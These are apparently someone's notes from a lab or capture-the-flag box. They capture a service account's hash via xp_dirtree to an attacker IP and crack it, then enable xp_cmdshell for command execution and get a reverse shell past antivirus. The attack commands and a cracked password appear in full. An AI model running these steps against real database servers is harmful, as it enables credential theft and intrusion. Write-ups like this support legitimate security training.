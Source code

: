 **==Now that we know the `mssql`service is running as `mssql-svc`user, we can try to capture hash using `responder`==**

# Capturing and Cracking Hash
---
- Start responder
	- `sudo responder -I tun0`
- **Access our attacker IP** on the `mssql`server:
	- `exec xp_dirtree '\\10.10.14.22\something'
	- ![[Pasted image 20250422155515.png]]
- ![[Pasted image 20250422155535.png]]
- Let's crack using `hashcat`:
	- ![[Pasted image 20250422155612.png]]
- `mssql-svc`: `corporate568`

# Logging in and RCE
---
- This user has `xp_cmdshell`permission while using `impacket-mssqlclient`:
	- `Impacket-mssqlclient QUERIER/MSSQL-SVC:'corporate568'@10.10.10.125 -windows-auth`
	- `EXEC sp_configure 'show advanced options', 1; RECONFIGURE;`
	- `EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;`
	- `EXEC xp_cmdshell 'whoami';`
	- ![[Pasted image 20250422155726.png]]

# Getting reverse shell
---
- Using `web-delivery`, any of the d**irect meterpreter shells did not work because of the AV**
- But using `windows/x64/shell/reverse_tcp`worked:
	- ![[Pasted image 20250422155935.png]]
	- ![[Pasted image 20250422160059.png]]